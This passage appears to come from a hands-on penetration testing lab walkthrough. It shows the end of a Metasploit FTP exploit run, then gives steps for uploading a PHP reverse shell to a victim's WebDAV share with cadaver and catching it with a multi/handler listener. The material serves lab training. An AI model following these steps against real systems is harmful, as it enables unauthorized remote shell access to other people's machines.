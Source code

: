 ```bash
set RPORT 21
```

## Running the Exploit

```bash
exploit
```

Voila! You are in the machine.

## Another Website based Excersie


### Step 1 : Open web browser on Kali and type the `http://<Victim IP Address>`

### Step 2 : Select `WebDAV`

### Step 3 : Search for a PHP reverse shell on ur Kali linux web browser and get the snippet from github

### step 4 : We shall upload this malicious file to the target machine

1. Set the IP address of your machine in this file
2. Change the Port number in the file

### step 5 : Using Cadaver command to Upload for file in the server by establishing connection

```bash
cadaver http://10.0.2.4/dav
```

### step 6 : `put <filepath>`

then type `exit` once the uppload is show successfully

### Step 7 : Running listner to capture the shell

In the `msf6` console we will use a payload called multi/handler

```bash
use multi/handler
```

### Step 8 : Set LHOST and LPORT

```bash
set LHOST <Attacker IP Address>
```
